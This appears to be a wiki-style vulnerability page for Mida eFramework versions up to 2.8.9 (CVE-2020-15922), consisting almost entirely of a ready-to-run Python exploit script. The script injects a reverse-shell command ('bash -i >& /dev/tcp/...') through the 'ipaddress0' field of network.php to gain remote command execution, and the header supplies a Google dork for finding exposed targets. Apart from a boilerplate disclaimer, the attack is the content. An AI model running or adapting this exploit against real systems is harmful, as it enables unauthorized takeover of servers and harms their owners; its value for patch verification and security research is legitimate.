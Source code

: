 <languages /> <translate>

影響版本
--------

</translate>

    Version: <= 2.8.9

EXP
---

    # Exploit Title: Mida eFramework 2.8.9 - Remote Code Execution
    # Google Dork: Server: Mida eFramework
    # Date: 2020-08-27
    # Exploit Author: elbae
    # Vendor Homepage: https://www.midasolutions.com/
    # Software Link: http://ova-efw.midasolutions.com/
    # Reference: https://elbae.github.io/jekyll/update/2020/07/14/vulns-01.html
    # Version: <= 2.8.9
    # CVE : CVE-2020-15922


    #! /usr/bin/python3
    # -*- coding: utf-8 -*-

    import argparse
    import base64
    import random
    import requests
    import subprocess
    from requests.packages.urllib3.exceptions import InsecureRequestWarning
    requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

    def print_disclaimer():
        print("""
        ---------------------
        Disclaimer:
        1) For testing purpose only.
        2) Do not attack production environments.
        3) Intended for educational purposes only and cannot be used for law
    violation or personal gain.
        4) The author is not responsible for any possible harm caused by this
    material.
        ---------------------""")


    def print_info():
        print("""
    [*] PoC exploit for Mida eFramework 2.8.9 PDC (CVE-2020-15922)
    [*] Reference:https://elbae.github.io/jekyll/update/2020/07/14/vulns-01.html
    [*] Vulnerability: OS Command Injection RCE in PDC/pages/network.php -
    Reverse Shell
        ./CVE-2020-15922 http://192.168.1.60:8090/PDC/pages/network.php rev-IP
    rev-PORT """)

    def run_cmd(url,ip,port):
        rev_shell = "sudo bash -i >& /dev/tcp/{0}/{1} 0>&1".format(ip,port)
        print("[+] Reverse shell: {0}".format(rev_shell))
        data = {
            "submit":"True",
            "ipaddress0":"; {0}".format(rev_shell),
            "netmask0":"",
            "gateway0":"",
            "dns1":"",
            "dns2":""
        }
        # exec rev shell
        print("[*] Starting reverse shell to {0} {1}...".format(ip,port))
        try:
            r = requests.post(url,data=data,verify=False,timeout=1)
        except requests.exceptions.ReadTimeout:
            print("[?] ...check if it worked")
            pass

    def main():
        print_info()
        print_disclaimer()
        parser = argparse.ArgumentParser()
        parser.add_argument("target", type=str,
            help="the complete target URL")
        parser.add_argument("ip", type=str,
            help="the ip address for reverse shell")
        parser.add_argument("port", type=str,
            help="the port for reverse shell")
        args = parser.parse_args()
        run_cmd(args.target, args.ip, args.port)

    if __name__ == '__main__':
        main()